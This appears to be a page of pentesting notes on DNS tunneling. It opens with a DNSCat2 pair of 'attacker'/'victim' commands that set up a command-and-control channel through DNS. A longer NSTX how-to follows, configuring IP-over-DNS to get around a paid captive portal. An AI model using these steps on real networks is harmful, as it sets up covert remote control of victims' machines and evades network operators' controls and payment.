 # ⭕ DNS Tunneling

## DNSCat2

Establishes a C\&C channel through DNS. It doesn't need root privileges.

```
attacker> ruby ./dnscat2.rb tunneldomain.com
victim> ./dnscat2 tunneldomain.com
```

## NSTX

is a hack to tunnel IP traffic over DNS.If DNS traffic does not work, but ICMP traffic (i.e., ping) works, try ICMPTX: IP-over-ICMP. Note that these instructions play nicely with ICMPTX. You can run both on one proxy.

You need several things to get going:

a DNS server that you can configure, (we'll call this ns.example.com) another server, one not running DNS. We're going to assume the IP address of this machine is 1.2.3.4. The reason you cannot run DNS on the same machine, is that you're going to run nstx on this machine. Nstx must run on port 53, like DNS. a crippled Internet connection, i.e., one that only allows you to issue DNS queries.

### Configure a new DNS subdomain

Let's assume you're running the domain "example.com". The nameserver for this domain is, as mentioned before, "ns.example.com". Configure "ns.example.com" by adding a subdomain, "tunnel.example.com". You do this by appending the following DNS records at the end of the zone file for "example.com":

```
;
; subdomain for IP-over-DNS tunnelling
;
$ORIGIN tunnel.example.com.
@               IN      NS      ns.tunnel.example.com.
ns              IN      A       1.2.3.4
```

In other words. We configured 1.2.3.4 to be the name server for a new subdomain "tunnel.example.com".

### Install and configure the bogus DNS server

On the machine 1.2.3.4, make sure your kernel supports the TUN/TAP network device. If you installed a standard 2.6 kernel image, it does. You may have to manually /sbin/modprobe tun. Install the nstx Debian package:

```
apt-get install nstx
```

Edit /etc/default/nstx and set NSTX\_DOMAIN to "tunnel.example.com" and set start\_nstxd to "yes". Finally, set ifup\_tun0 to "yes". In /etc/network/interfaces, define a new interface tun0, as follows:

```
iface tun0 inet static
  address 10.0.0.1
  netmask 255.0.0.0
```

Now start the server by running:

```
/etc/init.d/nstxd restart
```

If you're not running Debian, you can skip all that and just download the code, compile it manually, and start the server by hand and then configure the tun0 network device:

```
# nstxd tunnel.example.com
# /sbin/modprobe tun
# /sbin/ifconfig tun0 up 10.0.0.1 netmask 255.255.255.0
```

Whether you're running Debian or not, after running the nstx server, make sure you now have a tun0 device:

```
# /sbin/ifconfig tun0
tun0      Link encap:UNSPEC  HWaddr XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX-XX
          inet addr:10.0.0.1  P-t-P:10.0.0.1  Mask:255.0.0.0
          UP POINTOPOINT RUNNING NOARP MULTICAST  MTU:1500  Metric:1
          RX packets:50 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:10
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)
```

Now you need to enable forwarding on this server. I use iptables to implement masquerading. There are many HOWTOs about this (a simple one, for example). On Debian, the configuration file for iptables is in /var/lib/iptables/active. The relevant bit is:

```
*nat
:PREROUTING ACCEPT [6:1596]
:POSTROUTING ACCEPT [1:76]
:OUTPUT ACCEPT [1:76]

-A POSTROUTING -s 10.0.0.0/8 -j MASQUERADE
COMMIT
```

Restart iptables:

```
/etc/init.d/iptables restart
```

and enable forwarding:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

You can make sure this is permanent by editing /etc/sysctl.conf:

```
net/ipv4/ip_forward=1
```

### Configure the client

Make sure the kernel on the client machine also supports the TUN/TAP network device. If you installed a standard 2.6 kernel image, it does. You may have to manually /sbin/modprobe tun. Install the nstx Debian package:

```
apt-get install nstx
```

Edit /etc/default/nstx and set NSTX\_DOMAIN to "tunnel.example.com" and set start\_nstxcd to "yes". Finally, set ifup\_tun0 to "yes". In /etc/network/interfaces, define a new interface tun0, as follows:

```
iface tun0 inet static
  address 10.0.0.2
  netmask 255.0.0.0
  mtu 500 # optional, may solve ssh problems
```

Marc Merlin points out that you may you want to add something like (below the mtu line)

```
post-up route del default; route add -net default gw 10.0.0.1
```

now you're sitting at an airport or in a cafe, and you have internet access and they want your money before allowing you on the Internet. However, you noticed that you can issue DNS queries.

Assuming you got an IP address through DHCP, you should now know the IP address of the DNS server they want you to use. Your /etc/resolv.conf will contain at least one "nameserver" entry. Make sure you use the first nameserver entry in /etc/resolv.conf and remove the others. For the sake of this example, let's call the first and remaining nameserver 66.77.88.99. Edit /etc/default/nstx and change set NSTX\_DNS\_SERVER to "66.77.88.99". The latest nstx Debian package obviates this manual step as follows:

```
NSTX_DNS_SERVER=`grep nameserver /etc/resolv.conf |head -1|awk '{print $2}'`
```

That is, it simply sets NSTX\_DNS\_SERVER to the IP address of the first nameserver entry in /etc/resolv.conf.

Now, (re)start the nstx client:

```
 /etc/init.d/nstxcd restart
```

If you don't have Debian, start the client manually:

```
# nstxcd tunnel.example.com 66.77.88.99
# /sbin/modprobe tun
# /sbin/ifconfig tun0 up 10.0.0.2 netmask 255.255.255.0
```

Make sure you now have a tun0 device:

```
# /sbin/ifconfig tun0
tun0      Link encap:UNSPEC  HWaddr 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00
          inet addr:10.0.0.2  P-t-P:10.0.0.2  Mask:255.0.0.0
          UP POINTOPOINT RUNNING NOARP MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:500
          RX bytes:0 (0.0 b)  TX bytes:0 (0.0 b)
```

By running /sbin/route -n, figure out what your gateway is. It's the record with the "UG" Flags field. For example:

```
# /sbin/route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
192.168.1.0     0.0.0.0         255.255.255.0   U     0      0        0 wlan0
0.0.0.0         192.168.1.1     0.0.0.0         UG    0      0        0 wlan0
```

OK. So "192.168.1.1" is our gateway. Assuming your wireless network device is called "wlan0" (but it might well be "eth1", or whatever), run:

```
# /sbin/route del default
# /sbin/route add -host 66.77.88.99 gw 192.168.1.1 dev wlan0
# /sbin/route add default gw 10.0.0.1 tun0
```

Notice that "192.168.1.1" is the IP address of the gateway we learned by running "/sbin/route -n". Similarly, "66.77.88.99" is the nameserver from /etc/resolv.conf. Make sure you plug in the correct IP address in both cases.

You should now be all set. All DNS traffic is going straight to 66.77.88.99. All other traffic will be tunnelled through 1.2.3.4, via DNS.
